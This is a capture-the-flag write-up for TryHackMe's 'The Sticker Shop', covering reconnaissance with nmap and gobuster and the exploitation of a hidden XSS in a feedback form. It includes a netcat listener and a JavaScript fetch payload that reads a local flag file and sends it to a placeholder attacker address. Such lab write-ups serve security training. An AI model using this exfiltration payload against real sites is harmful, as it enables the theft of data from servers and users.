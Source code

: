 # The Sticker Shop - TryHackMe CTF Writeup

## Overview
This writeup covers the step-by-step solution for "The Sticker Shop" challenge on TryHackMe, demonstrating web application security testing and XSS exploitation techniques.

## Methodology

### 1. Host Discovery
First, we verify the target host is online using ping:
```bash
ping <target-ip>
```

![Ping Test](img/ping.jpg)
*Figure 1: Confirming the target host is online using ping*

### 2. Initial Flag Testing
Test the flag endpoint directly to understand the server response:
```bash
curl -I http://<target-ip>:8080/flag
```

![Curl Test](img/curl.jpg)
*Figure 2: Testing the flag endpoint with curl to understand server behavior*

**Findings**: The curl request reveals server information and response status, providing initial insights into the application structure.

### 3. Port Scanning
Perform comprehensive port enumeration to identify open services:
```bash
nmap -sV -T4 <target-ip>
```

![Nmap Scan](img/nmap.jpg)
*Figure 3: Nmap scan results showing the web server on port 8080*

**Key Discovery**: The web server is running on port 8080, not the standard HTTP port 80.

### 4. Source Code Analysis
Examine the HTML source code of the main page for hidden information:
```bash
view-source:http://<target-ip>:8080
```

**Results**: No useful information found in the source code - no hidden comments or developer notes.

### 5. Directory Enumeration
Use DirBuster to discover hidden directories and files. <br>
Alternatively can also use gobuster
```bash
gobuster dir -u http://<target-ip>:8080 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```

![DirBuster Scan](img/dirbuster.jpg)
*Figure 4: DirBuster directory enumeration*

**Results**: No additional directories found beyond the main application.

### 6. Feedback Form Investigation
Explore the feedback page which appears to be a potential injection point:

![Feedback Form](img/feedback_box.jpg)
*Figure 5: The feedback form interface - potential XSS injection point*

### 7. Basic XSS Testing
Test basic XSS payloads in the feedback form:
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
```

**Observation**: No immediate error messages or visible output, suggesting the XSS might be:
- Filtered or blocked
- Hidden from view
- Executed in a different context

### 8. Burp Suite Proxy Analysis
Use Burp Suite to intercept and analyze requests for deeper investigation:

![Burp Suite Proxy](img/burpsuite_proxy.jpg)
*Figure 6: Burp Suite proxy intercepting and analyzing requests*

**Analysis**: Monitor feedback form submissions and analyze response headers for any unusual behavior. Found that xss was hidden.

### 9. Advanced XSS Strategy
Since basic XSS wasn't working, we need a more sophisticated approach. The key insight is that XSS is hidden or require JavaScript fetch techniques.

### 10. Setting Up Data Exfiltration
Establish a netcat listener on a custom port to receive exfiltrated data:
```bash
nc -lvnp 8000
```

![Netcat Listener](img/netcat_listner.jpg)
*Figure 7: Setting up netcat listener on port 8000 for data exfiltration*

### 11. Crafting Advanced Payload
Create a JavaScript payload that fetches data from localhost and sends it to our listener:

![Script Injection](img/script_injection.jpg)
*Figure 8: Testing advanced XSS payload with JavaScript fetch*

**Payload Explanation**:
```javascript
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => fetch('http://<attacker-ip>:8000/' + encodeURIComponent(data)))
```

This payload:
1. Fetches the flag from the local server
2. Converts the response to text
3. Sends the flag data to our netcat listener via another fetch request

### 12. Successful Exploitation
Execute the attack and receive the flag through the netcat listener:

![Receiving Flag](img/recieve_flag.jpg)
*Figure 9: Successfully receiving the flag through the netcat listener*

## Key Technical Insights

1. **Non-Standard Port**: The application runs on port 8080 instead of 80
2. **Hidden XSS**: The XSS vulnerability wasn't immediately visible
3. **JavaScript Fetch**: Modern JavaScript can be used for data exfiltration
4. **Localhost Access**: Internal endpoints accessible from localhost
5. **Data Exfiltration**: Using fetch() to send data to external listeners

## Tools Used
- **Ping**: Host discovery
- **Curl**: Initial endpoint testing
- **Nmap**: Port scanning and service enumeration
- **DirBuster/Gobuster**: Directory enumeration
- **Burp Suite**: Request interception and analysis
- **Netcat**: Setting up listeners for data exfiltration
- **Browser Developer Tools**: Analyzing JavaScript execution

## Learning Points
- Always check non-standard ports during enumeration
- XSS vulnerabilities can be hidden and require creative exploitation
- JavaScript fetch() is a powerful tool for data exfiltration
- Internal endpoints may be accessible only from localhost
- Proper listener setup is crucial for successful data exfiltration

## Prevention
To prevent such vulnerabilities:
- Implement proper input validation and sanitization
- Use Content Security Policy (CSP) headers
- Validate and sanitize all user inputs
- Implement proper access controls for internal endpoints
- Regular security testing and code reviews

